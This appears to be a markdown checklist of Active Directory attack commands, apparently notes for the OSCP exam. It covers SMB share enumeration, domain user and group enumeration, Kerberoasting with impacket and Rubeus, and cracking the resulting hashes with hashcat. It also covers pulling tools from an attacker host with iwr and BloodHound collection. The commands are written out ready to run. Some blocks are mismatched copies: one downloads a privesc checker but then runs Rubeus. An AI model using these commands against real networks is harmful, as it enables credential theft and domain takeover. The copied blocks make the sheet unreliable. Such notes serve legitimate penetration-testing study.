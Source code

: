 ```
```
- [ ] Go through privesc sheet
- [ ] Bloodhound/Sharphound the user
- [ ] Double check you enumerated SMB Shares
```
crackmapexec smb 192.168.xxx.xxx -u user -p password --shares
```
### Manual enumeration
- [ ] Get all users
```
net user /domain
```
- [ ] Get information about a specific user
```
net user jeffadmin /domain
```
- [ ] Get all groups in the domain
```
net group /domain
```
- [ ] Enum computer objects in the domain
```
Get-NetComputer
```
- [ ] Get OS and version of each computer - potential OS exploits
```
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```
- [ ] Find computers where the current user has local admin access
```
Find-LocalAdminAccess
```
### Kerberoast
- [ ] Kerberoast from kali
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.xxx.xxx oscp.exam/user
```
- [ ] Kerberoast from windows
```
iwr -uri http://192.168.xxx.xxx/windows-privesc-check2.exe -Outfile windows-privesc-check2.exe

.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force #crack the hashes
```

## BLOODHOUND
- [ ] SharpHound/BloodHound Windows
```
iwr -uri http://192.168.xxx.xxx/SharpHound.ps1 -Outfile SharpHound.ps1

.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force #crack the hashes
```
- [ ] SharpHound/BloodHound remotely from kali
```
pip install bloodhound;
bloodhound-python -d oscp.exam -u user -p password -gc 192.168.xxx.xxx -c all
```
- [ ] Ingest into Bloodhound
```
curl -L https://ghst.ly/getbhce | sudo docker-compose -f - up
```